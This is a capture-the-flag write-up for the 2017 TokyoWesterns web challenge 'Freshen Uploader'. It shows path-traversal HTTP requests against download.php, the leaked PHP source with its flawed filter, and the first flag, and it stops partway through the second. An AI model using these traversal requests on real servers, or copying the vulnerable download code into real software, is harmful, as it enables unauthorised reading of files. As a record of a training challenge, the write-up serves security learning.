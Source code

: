 # FRESHEN UPLOADER, Web, no fixed points

## Problem

In this year, we stopped using Windows so you can't use DOS tricks!
http://fup.chal.ctf.westerns.tokyo/

This challenge contained two flags.

## Solution

![Screen caption](1.png)

### Flag 1


```HTML
<td>1</td>
            <td>test.cpp</td>
            <td>192 bytes</td>
            <td><a href="download.php?f=6a92b449761226434f5fce6c8e87295a">Download</a></td>
```


uploads/


LFI:

/download.php?f=./uploads/../6a92b449761226434f5fce6c8e87295a


![Screen caption](2.png)


```
GET /download.php?f=../download.php HTTP/1.1
Host: fup.chal.ctf.westerns.tokyo
```

result:

```
HTTP/1.1 200 OK
Date: Sat, 02 Sep 2017 19:59:02 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Disposition: attachment; filename='../download.php'
Content-Length: 267
Content-Type: application/octet-stream

<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

Flag: **TWCTF{then_can_y0u_read_file_list?}**


### Flag 2


```
GET /download.php?f=../index.php HTTP/1.1
Host: fup.chal.ctf.westerns.tokyo
```

result:

```
HTTP/1.1 200 OK
Date: Sat, 02 Sep 2017 20:00:51 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Disposition: attachment; filename='../index.php'
Content-Length: 1315
Content-Type: application/octet-stream

<?php
/**
 *
 */
include('file_list.php');
?>
<!DOCTYPE html>
<html lang="en">
  <head>
  (...)
```


download.php:

```PHP
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
```


